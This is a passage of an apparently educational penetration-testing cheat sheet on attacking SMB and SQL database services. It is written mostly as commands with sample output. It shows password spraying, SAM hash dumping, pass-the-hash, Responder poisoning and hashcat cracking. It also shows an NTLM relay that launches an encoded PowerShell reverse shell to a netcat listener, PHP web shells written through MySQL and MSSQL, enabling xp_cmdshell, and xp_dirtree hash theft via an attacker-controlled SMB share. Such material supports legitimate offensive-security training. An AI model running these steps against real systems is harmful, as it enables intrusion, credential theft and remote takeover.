* **NetBIOS/RPC enumeration** to gather intel or perform actions.

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap <TARGET_IP> -sV -sC -p139,445
```
```bash
# PORT    STATE SERVICE     VERSION
# 139/tcp open  netbios-ssn Samba smbd 4.6.2
# 445/tcp open  netbios-ssn Samba smbd 4.6.2
# MAC Address: 00:00:00:00:00:00 (VMware)

# Host script results:
# |_nbstat: NetBIOS name: RTH, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
# | smb2-security-mode: 
# |   2.02: 
# |_    Message signing enabled but not required
# | smb2-time: 
# |   date: 2021-09-19T13:16:04
# |_  start_date: N/A
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* Identifies SMB version and implementation (e.g., Samba smbd 4.6.2)
* Reveals hostname and possible OS type
* Helps detect:
    * Misconfigurations (e.g., message signing disabled)
    * Potential vulnerabilities
* Provides NetBIOS details for further enumeration

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

SMB can be configured not to require authentication, which is often called a null session. Instead, we can log in to a system with no username or password.

<details>
<summary><h3>Anonymous Authentication</h3></summary>

SMB servers can allow access without requiring a username and password (null session), or we may use valid credentials if available.

* **Potential Access:** Using anonymous authentication, we can gather information such as:
    * List of file shares
    * Usernames and groups
    * Permissions and policies
    * Running services
* **Tools Supporting Null Sessions:**
    * `smbclient`
    * `smbmap`
    * `rpcclient`
    * `enum4linux`

</details>

<details>
<summary><h3>File Share</h3></summary>

**Using `smbclient`**

```bash
smbclient -N -L //<TARGET_IP>
```
```bash
# Sharename       Type      Comment
# -------         --        -------
# ADMIN$          Disk      Remote Admin
# C$              Disk      Default share
# notes           Disk      CheckIT
# IPC$            IPC       IPC Service (DEVSM)
# SMB1 disabled no workgroup available
```

---

**Using `smbmap`**

```bash
smbmap -H <TARGET_IP>
```
```bash
# [+] IP: <TARGET_IP>:445
# Disk       Permissions   Comment
# ----       -----------   -------
# ADMIN$     NO ACCESS     Remote Admin
# C$         NO ACCESS     Default share
# IPC$       READ ONLY     IPC Service (DEVSM)
# notes      READ, WRITE   CheckIT
```

**Browse Share Recursively:**

```bash
smbmap -H <TARGET_IP> -r <SHARE_NAME>
```
```bash
# [+] Guest session       IP: <TARGET_IP>:445    Name: <TARGET_IP>                           
#         Disk                                                    Permissions     Comment
#         --                                                   ---------    -------
#         notes                                                   READ, WRITE
#         .\notes\*
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    .
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    ..
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    LDOUJZWBSG
#         fw--w--w             116 Tue Apr 16 07:43:19 2019    note.txt
#         fr--r--r               0 Fri Feb 22 07:43:28 2019    SDT65CB.tmp
#         dr--r--r               0 Mon Nov  2 00:54:57 2020    TPLRNSMWHQ
#         dr--r--r               0 Mon Nov  2 00:56:51 2020    WDJEQFZPNO
#         dr--r--r               0 Fri Feb 22 07:44:02 2019    WindowsImageBackup
```

From the above example, the permissions are set to READ and WRITE, which one can use to upload and download the files.


**Download a file:**

```bash
smbmap -H <TARGET_IP> --download "notes\note.txt"
```
```bash
# [+] Starting download: notes\note.txt (116 bytes)
# [+] File output to: /rth/<TARGET_IP>-notes_note.txt
```

**Upload a file:**

```bash
smbmap -H <TARGET_IP> --upload ./test.txt "notes\test.txt"
```
```bash
# [+] Starting upload: test.txt (20 bytes)
# [+] Upload complete.
```

</details>

<details>
<summary><h3>Remote Procedure Call (RPC)</h3></summary>

RPC can be enumerated using a **null session** with `rpcclient` or automated tools like `enum4linux`.

**Using `rpcclient`**

```bash
rpcclient -U'%' <TARGET_IP>
```
```bash
rpcclient $> enumdomusers

# user:[mhope] rid:[0x641]
# user:[svc-ata] rid:[0xa2b]
# user:[svc-bexec] rid:[0xa2c]
# user:[roleary] rid:[0xa36]
# user:[smorgan] rid:[0xa37]
```

---

**Using `rpcclient`**

```bash
./enum4linux-ng.py <TARGET_IP> -A -C
```
```bash
# ENUM4LINUX - next generation

# ...

#  ====================================
# |    Service Scan on <TARGET_IP>     |
#  ====================================
# ...
# [*] Checking SMB (timeout: 5s)
# [*] SMB is accessible on 445/tcp
# [*] Checking SMB over NetBIOS (timeout: 5s)
# [*] SMB over NetBIOS is accessible on 139/tcp

#  ===================================================                            
# |    NetBIOS Names and Workgroup for <TARGET_IP>    |
#  ===================================================                                                                                         
# [*] Got domain/workgroup name: WORKGROUP
# [*] Full NetBIOS names information:
# - WIN-752039204 <00> -          B <ACTIVE>  Workstation Service
# - WORKGROUP     <00> -          B <ACTIVE>  Workstation Service
# - WIN-752039204 <20> -          B <ACTIVE>  Workstation Service
# - MAC Address = 00-0C-29-D7-17-DB
# ...
#  ========================================
# |    SMB Dialect Check on <TARGET_IP>    |
#  ========================================

# ...
```

</details>

</details>

<details>
<summary><h2>Protocol Specifics Attacks</h2></summary>

If a null session is not enabled, we will need credentials to interact with the SMB protocol. Two common ways to obtain credentials are [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack).

<details>
<summary><h3>Brute Forcing and Password Spray</h3></summary>

**Brute-Forcing**
* Attempts as many passwords as possible against a single account.
* Risk: May trigger account lockout if threshold is exceeded.
* Recommendation: Only use if the lockout threshold is known; otherwise, avoid.

**Password Spraying**
* Targets multiple usernames with a single common password.
* Safer approach to avoid account lockouts.
* Guidelines:
    * Use 2–3 password attempts per user if lockout threshold is unknown.
    * Wait 30–60 minutes between attempts.

**Using `CrackMapExec` for Password Spraying**

```bash
crackmapexec smb <TARGET_IP> -u <USER_LIST> -p '<PASSWORD>' --local-auth
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\Administrator:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\admin:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\fsmith:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\tcrash:<PASSWORD> STATUS_LOGON_FAILURE 

# ...

# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\jurena:<PASSWORD> (Pwn3d!) 
```

> **Note:** By default `CrackMapExec` will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list. Additionally, if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`.

</details>

<details>
<summary><h3>Remote Code Execution (RCE)</h3></summary>

To use impacket-psexec, we need to provide the domain/username, the password, and the IP address of our target machine.

**Option 1 > Connect to a remote machine using `impacket-psexec`**

```bash
impacket-psexec <USER>:'<PASSWORD>'@<TARGET_IP>
```
```bash
# Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

# [*] Requesting shares on <TARGET_IP>.....
# [*] Found writable share ADMIN$
# [*] Uploading file EHtJXgng.exe
# [*] Opening SVCManager on <TARGET_IP>.....
# [*] Creating service nbAc on <TARGET_IP>.....
# [*] Starting service nbAc.....
# [!] Press help for extra shell commands
# Microsoft Windows [Version 10.0.19041.1415]
# (c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>
```

> **NOTE:** The same options apply to `impacket-smbexec` and `impacket-atexec`.

---

**Option 2 > Run CMD or PowerShell commands using `crackmapexec`**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' -x 'whoami' --exec-method smbexec
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] .\<USER>:<PASSWORD> (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Executed command via smbexec
# SMB         <TARGET_IP> 445    WIN7BOX  nt authority\system
```

> **Note:** If the `--exec-method` is not defined, CrackMapExec will try to execute the `atexec` method, if it fails you can try to specify the `--exec-method` smbexec.

</details>

<details>
<summary><h3>Enumerating Logged-on Users</h3></summary>

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use CrackMapExec to enumerate logged-on users on all machines within the same network 10.10.110.0/24, which speeds up our enumeration process.

**Example Command**

```bash
crackmapexec smb 10.10.110.0/24 -u <USER> -p '<PASSWORD>' --local-auth --logged-on-users
```
```bash
# SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
# SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
# SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
# SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```

</details>

<details>
<summary><h3>Extract Hashes from SAM Database</h3></summary>

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:

* Authenticate as another user
* Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts
* Pass The Hash

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' --sam
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Dumping SAM hashes
# SMB         <TARGET_IP> 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
# SMB         <TARGET_IP> 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
# SMB         <TARGET_IP> 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
# SMB         <TARGET_IP> 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

</details>

<details>
<summary><h3>Pass-the-Hash (PtH)</h3></summary>

If we manage to get an **NTLM hash** of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called **Pass-the-Hash (PtH)**. PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any `Impacket tool`, `SMBMap`, `CrackMapExec`, among other tools.

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -H <NTLM_HASH>
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\<USER>:<NTLM_HASH> (Pwn3d!)
```

</details>

<details>
<summary><h3>Forced Authentication Attacks</h3></summary>

SMB can be abused to capture users' **NetNTLM v1/v2 hashes**. By setting up a fake SMB server, we can trick clients into authenticating to it.

**Tool: Responder**
* Responder is a **LLMNR, NBT-NS, and MDNS poisoner**.
* Key capabilities include:
    * Setting up **fake services** (e.g., SMB) to capture credentials.
    * Listening for **LLMNR and NBT-NS traffic**.
    * Responding on behalf of servers that victims try to reach.
    * Capturing **NetNTLM v1/v2 hashes** automatically.

**Workflow**
1. Start Responder in a network segment.
2. Wait for LLMNR/NBT-NS requests from clients.
3. Responder responds with the fake SMB service.
4. Victim attempts authentication to the fake SMB server.
5. NetNTLM hashes are captured for offline cracking or relay attacks.




**Why This Matters**
* Allows attackers to harvest authentication credentials without user interaction.
* Can be combined with **hash cracking** or **SMB relay attacks**.

When a user or a system tries to perform a Name Resolution (NR), a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:



**Step 1: Create a fake SMB server using the Responder default configuration:**

```bash
sudo responder -I ens3
```
```bash
#   .----.-----.-----.-----.-----.-----.--|  |.-----.----.
#   |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
#   |__| |_____|_____|   __|_____|__|__|_____||_____|__|
#                    |__|

#            NBT-NS, LLMNR & MDNS Responder 3.1.3.0

#   To support this project:
#   Patreon -> https://www.patreon.com/PythonResponder
#   Paypal  -> https://paypal.me/PythonResponder

#   Author: Laurent Gaffie (laurent.gaffie@gmail.com)
#   To kill this script hit CTRL-C

# ...


# [+] Listening for events...

# ...
```
```bash
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Domain Master Browser)
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Browser Election)
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [*] [LLMNR]  Poisoned answer sent to <TARGET_IP> for name mysharefoder
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [SMB] NTLMv2-SSP Client   : <TARGET_IP>
# [SMB] NTLMv2-SSP Username : WIN7BOX\demouser
# [SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>
```

These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (**`/usr/share/responder/logs/`**). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

> **NOTE:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.

**Step 2: Use hashcat to crak the password:**

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
# hashcat (v6.1.1) starting...

# ...

# Dictionary cache hit:
# * Filename..: /usr/share/wordlists/rockyou.txt
# ...

# ADMINISTRATOR::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>:P@ssword

# Session..........: hashcat
# Status...........: Cracked
# Hash.Name........: NetNTLMv2
# Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
# ...
```

The captured NTLMv2 hash was successfully cracked, revealing the password: **`P@ssword`**.
If the hash cannot be cracked, it may still be leveraged through a relay attack. This can be achieved using tools such as `impacket-ntlmrelayx` or Responder’s `MultiRelay.py`.

**Step 3: Disable SMB in Responder:**

```bash
sudo sed -i 's/^SMB = .*/SMB = Off/' /etc/responder/Responder.conf
```

**Verify change:**

```bash
cat /etc/responder/Responder.conf | grep 'SMB ='
```
```bash
# SMB = Off
```

**Step 4: Generate a PowerShell Reverse Shell**

Use [revshells.com](https://www.revshells.com/) to create a **PowerShell #3 (Base64)** reverse shell payload.
Set the local IP, port, and generate the encoded command.

**Step 5: Start a Netcat Listener**

```bash
nc -lvnp <PORT>
```
```bash
# listening on [any] 9001 ...
```

**Step 6: Execute the NTLM Relay Attack**

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET_IP> -c 'powershell -e <BASE64_STRING>'
```
```bash
# listening on [any] 9001 ...
# connect to [10.10.110.133] from (UNKNOWN) [<TARGET_IP>] 52471

PS C:\Windows\system32> whoami;hostname

# nt authority\system
# WIN11BOX
```


</details>

</details>

</details>

---

<details>
<summary><h1>🛢️ SQL Databases</h1></summary>

[MySQL](https://www.mysql.com/) and [Microsoft SQL Server (MSSQL)](https://www.microsoft.com/en-us/sql-server/sql-server-2019) are [relational database](https://en.wikipedia.org/wiki/Relational_database) management systems (RDBMS). They store data in tables, organized into columns and rows.

Most relational database systems, including MSSQL and MySQL, rely on [Structured Query Language (SQL)](https://en.wikipedia.org/wiki/SQL) for:
* Querying data
* Maintaining and managing the database

**Why Databases Are High-Value Targets**

Databases are prime targets for attackers because they often contain sensitive and business-critical information, such as:
* User credentials
* Personally Identifiable Information (PII)
* Business-related records
* Payment information

**Security Risks**

Database services are frequently configured with highly privileged users. If an attacker gains access to a database, they may be able to:
* Exploit elevated privileges
* Move laterally within the system
* Escalate privileges to gain wider control

<details>
<summary><h2>Nmap Scan</h2></summary>

**Default SQL Ports**

* MSSQL
    * TCP/1433 (default)
    * UDP/1434 (browser service)
    * TCP/2433 (when running in hidden mode)
* MySQL
    *TCP/3306 (default)

**Example Command**

```bash
sudo nmap <TARGET_IP> -Pn -sV -sC -p1433
```
```bash
# PORT     STATE SERVICE  VERSION
# 1433/tcp open  ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
# | ms-sql-ntlm-info: 
# |   Target_Name: HTB
# |   NetBIOS_Domain_Name: HTB
# |   NetBIOS_Computer_Name: mssql-test
# |   DNS_Domain_Name: HTB.LOCAL
# |   DNS_Computer_Name: mssql-test.HTB.LOCAL
# |   DNS_Tree_Name: HTB.LOCAL
# |_  Product_Version: 10.0.17763
# | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
# | Not valid before: 2021-08-26T01:04:36
# |_Not valid after:  2051-08-26T01:04:36
# |_ssl-date: 2021-08-26T01:11:58+00:00; +2m05s from scanner time.

# Host script results:
# |_clock-skew: mean: 2m04s, deviation: 0s, median: 2m04s
# | ms-sql-info: 
# |   <TARGET_IP>:1433: 
# |     Version: 
# |       name: Microsoft SQL Server 2017 RTM
# |       number: 14.00.1000.00
# |       Product: Microsoft SQL Server 2017
# |       Service pack level: RTM
# |       Post-SP patches applied: false
# |_    TCP port: 1433
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-Pn`           | Treat host as online (skip ICMP ping discovery) |
| `-sV`           | Detect service version                          |
| `-sC`           | Run default Nmap scripts                        |
| `-p1433`        | Scan only port 1433 (SQL Server default)        |
| `<TARGET_IP>`   | Target IP address                               |

**Why This Matters**

* **Attackers look for open SQL ports** (1433/3306) as easy entry points.
* **Weak or misconfigured authentication** can lead to:
    * Full database access without credentials.
    * Leakage of sensitive data (users, passwords, financial records).
    * Remote code execution via SQL functions or stored procedures.
* **Exposed metadata** (seen in Nmap output) reveals:
    * SQL Server version (helps attackers find exploits).
    * Domain, computer, and DNS names (useful for lateral movement).
* **Default or no-password accounts** are commonly exploited in automated attacks.

</details>

<details>
<summary><h2>Authentication Mechanisms</h2></summary>

**MSSQL**

MSSQL supports two authentication modes:

| Authentication Type             | Description                                                                                                                                                                                  |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Windows Authentication Mode** | Default mode (also called *integrated security*). SQL Server trusts Windows/Active Directory accounts. Users already authenticated by Windows do not need to provide additional credentials. |
| **Mixed Mode**                  | Supports both Windows/AD authentication and SQL Server–specific logins (username + password stored in SQL Server).                                                                           |


**MySQL**

* Supports authentication using:
    * Username + Password
    * Windows Authentication (requires plugin)

* Administrators may choose an authentication mode based on compatibility, security, usability, etc.
* Misconfigurations in authentication settings can expose services to unauthorized access.

<details>
<summary><h3>Misconfigurations</h3></summary>

A misconfiguration can allow access without credentials under these conditions:
* Anonymous access enabled
* User without a password
* Unrestricted access

</details>

<details>
<summary><h3>Privileges</h3></summary>

Depending on the user's privileges, we may be able to perform different actions within a SQL Server, such as:

* Read or change the contents of a database
* Read or change the server configuration
* Execute commands
* Read local files
* Communicate with other databases
* Capture the local system hash
* Impersonate existing users
* Gain access to other networks

</details>

</details>

<details>
<summary><h2>Protocol Specific Attacks</h2></summary>

Once access to a SQL database has been obtained, the next step is to enumerate its contents. Start by identifying the databases that exist on the server, then inspect the tables within each database, and finally review the data stored in those tables.

In practice, large environments may contain hundreds of tables, so it’s not always practical—or necessary—to dump everything.
Instead, focus on the tables that are most likely to contain actionable information, such as:

* Usernames and passwords
* API keys or authentication tokens
* Configuration data
* Application-specific secrets

This targeted approach will not only save time, but also help you find data that can be leveraged for further compromise or privilege escalation.

<details>
<summary><h3>MySQL</h3></summary>

**Default System Databases**

| Database           | Description                                                                                       |
|--------------------|---------------------------------------------------------------------------------------------------|
| `mysql`            | Core system database; contains tables required by the MySQL server                                |
| `information_schema` | Stores metadata such as databases, tables, and columns                                           |
| `performance_schema` | Used for monitoring MySQL server execution at a low level                                        |
| `sys`              | Helper objects to make Performance Schema data easier to understand                               |

<details>
<summary><h4>Step 1: Connecting to the SQL Server</h4></summary>

```bash
mysql -u <USER> -p<PASSWORD> -h <TARGET_IP>
```

</details>

<details>
<summary><h4>Step 2: Explore the Databases</h4></summary>

**Show Databases**

```sql
SHOW DATABASES;
```
```bash
# +--------------------+
# | Database           |
# +--------------------+
# | information_schema |
# | users              |
# +--------------------+
# 2 rows in set (0.00 sec)
```

**Use a Database**

```sql
USE users;
```
```bash
# Database changed
```

**Show Tables**

```sql
SHOW TABLES;
```
```bash
# +----------------------------+
# | users                      |
# +----------------------------+
# | actions                    |
# | permissions                |
# | permissions_roles          |
# | permissions_users          |
# | roles                      |
# | roles_users                |
# | settings                   |
# | users                      |
# +----------------------------+
# 8 rows in set (0.00 sec)
```

**View Table Contents**

```sql
SELECT * FROM users;
```
```bash
# +----+---------------+------------+---------------------+
# | id | username      | password   | date_of_joining     |
# +----+---------------+------------+---------------------+
# |  1 | admin         | p@ssw0rd   | 2025-07-02 00:00:00 |
# |  2 | administrator | adm1n_p@ss | 2025-07-02 11:30:50 |
# |  3 | john          | john123!   | 2025-07-02 11:47:16 |
# |  4 | tom           | tom123!    | 2025-07-02 12:23:16 |
# +----+---------------+------------+---------------------+
# 4 rows in set (0.00 sec)
```

</details>

<details>
<summary><h4>Step 3: Execute Commands</h4></summary>

Command execution is one of the most valuable capabilities when attacking common services, as it enables direct control over the operating system. With sufficient privileges, an attacker can leverage the SQL database to run system commands or create the necessary mechanisms to do so.

Unlike SQL Server’s `xp_cmdshell`, **MySQL** does not provide a built-in stored procedure for executing system commands. However, command execution is still possible if we can write files to a location on the file system that is executed by another service.

For example, if **MySQL** is running alongside a PHP-based web server (or another language such as ASP.NET), and we have the necessary privileges, we can create a web shell using **SELECT INTO OUTFILE**. By writing a script directly into the web server’s directory, we are then able to browse to the file and execute arbitrary commands through the web interface.

**Write Local File**

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/shell.php';
```

---

In MySQL, the global system variable `secure_file_priv` restricts data import and export operations, including those performed by **LOAD DATA**, **SELECT … INTO OUTFILE**, and the **LOAD_FILE()** function. These operations are only available to users with the **FILE** privilege.

`secure_file_priv` can be configured as follows:
* **Empty value** → No restrictions are applied. This is considered insecure.
* **Directory path** → Restricts import and export operations to that specific directory. The directory must already exist, as MySQL will not create it.
* **NULL** → Completely disables import and export operations.

**Verify `secure_file_priv`**

```sql
show variables like "secure_file_priv";
```
```bash
# +------------------+-------+
# | Variable_name    | Value |
# +------------------+-------+
# | secure_file_priv |       |
# +------------------+-------+

# 1 row in set (0.005 sec)
```

In the previous example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using MySQL.

---

By default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges.

**Read Local Files**

```sql
select LOAD_FILE("/etc/passwd");
```
```bash
# +--------------------------+
# | LOAD_FILE("/etc/passwd")
# +--------------------------------------------------+
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# bin:x:2:2:bin:/bin:/usr/sbin/nologin
# sys:x:3:3:sys:/dev:/usr/sbin/nologin
# sync:x:4:65534:sync:/bin:/bin/sync
```

</details>

</details>

<details>
<summary><h3>MSSQL</h3></summary>

**Default System Databases**

| Database | Description                                                                                          |
|---------|------------------------------------------------------------------------------------------------------|
| `master` | Stores configuration and instance-level information                                                 |
| `msdb`  | Used by SQL Server Agent (job scheduling, alerts, etc.)                                              |
| `model` | Template database that is copied when a new database is created                                     |
| `resource` | Read-only database that stores system objects visible in all databases (under the `sys` schema) |
| `tempdb` | Stores all temporary tables, variables and other transient objects used in SQL queries              |

<details>
<summary><h4>Step 1: Connecting to the SQL Server</h4></summary>

**OPTION 1: `sqsh`**

```bash
sqsh -S <TARGET_IP> -U <USER> -P '<PASSWORD>' -h
```

When connecting to a SQL Server using **Windows authentication**, the client must include either the **domain name** or the **hostname** in the username.
If no hostname or domain is provided, the client defaults to **SQL authentication** and attempts to log in using a SQL Server–defined user.

* **Windows authentication** (domain or local account):
    * Domain account → `DOMAIN\username`
    * Local account → `HOSTNAME\username` or `.\username`
* **SQL authentication**:
    * Username only → `username`

```bash
sqsh -S <TARGET_IP> -U .\\<USER> -P '<PASSWORD>' -h
```

**OPTION 2: `mssqlclient.py`**

```bash
python3 /usr/local/bin/mssqlclient.py -p <PORT> <USER>@<TARGET_IP>
```

</details>

<details>
<summary><h4>Step 2: Explore the Databases</h4></summary>

**Show Databases**

```sql
SELECT name FROM master.dbo.sysdatabases;
GO
```
```bash
# master
# tempdb
# model
# msdb
# users
```
**Only show databases you truly have access**

```bash
SELECT name FROM sys.databases WHERE HAS_DBACCESS(name)=1 ORDER BY name;
```

**Use a Database**

```sql
USE users;
GO
```
```bash
# Changed database context to 'users'.
```

**Show Tables**

```sql
SELECT table_name FROM users.INFORMATION_SCHEMA.TABLES;
GO
```
```bash
# actions
# permissions
# permissions_roles
# permissions_users
# roles
# roles_users
# settings
# users
```

**View Table Contents**

```sql
SELECT * FROM users;
GO
```
```bash
# id   username       password       date_of_joining
# ----------------------------------------------------------
# 1    admin          p@ssw0rd       2025-07-02 00:00:00
# 2    administrator  adm1n_p@ss     2025-07-02 11:30:50
# 3    john           john123!       2025-07-02 11:47:16
# 4    tom            tom123!        2025-07-02 12:23:16
```

</details>

<details>
<summary><h4>Step 3: Execute Commands</h4></summary>

Command execution is one of the most valuable capabilities when attacking common services, as it enables direct control over the operating system. With sufficient privileges, an attacker can leverage the SQL database to run system commands or create the necessary mechanisms to do so.

**Execute commands using SQL syntax on MSSQL**

```sql
xp_cmdshell 'whoami'
GO
```
```bash
# output
# -----------------------------
# no service\mssql$sqlexpress
# NULL
# (2 rows affected)
```

If `xp_cmdshell` is not enabled, we can enable it.

**Allow advanced options to be changed:**

```sql
EXECUTE sp_configure 'show advanced options', 1
GO
```

**Update the currently configured value for advanced options:**

```sql
RECONFIGURE
GO
```

**Enable the feature:**

```sql
EXECUTE sp_configure 'xp_cmdshell', 1
GO  
```

**Update the currently configured value for this feature:**

```sql
RECONFIGURE
GO
```

---

To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

**Enable Ole Automation Procedures:**

```sql
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```

**Write Local Files:**

```sql
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```

---

**Read Local Files:**

By default, MSSQL allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```
```bash
# BulkColumn

# -----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should

# (1 rows affected)
```

</details>

<details>
<summary><h4>Step 4: Capture Service Hash</h4></summary>

We can capture the MSSQL service account hash by abusing the undocumented stored procedures `xp_subdirs` or `vxp_dirtree`. These procedures rely on the SMB protocol to enumerate child directories under a specified parent directory. By directing the procedure to query a path hosted on our controlled SMB server, SQL Server is tricked into authenticating to it. This forces the service account to send its NTLMv2 hash, which can then be intercepted and cracked offline.

**XP_DIRTREE Hash Stealing**

```sql
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
```
```bash
# subdirectory    depth
# --------------- -----------
```

**XP_SUBDIRS Hash Stealing**

```sql
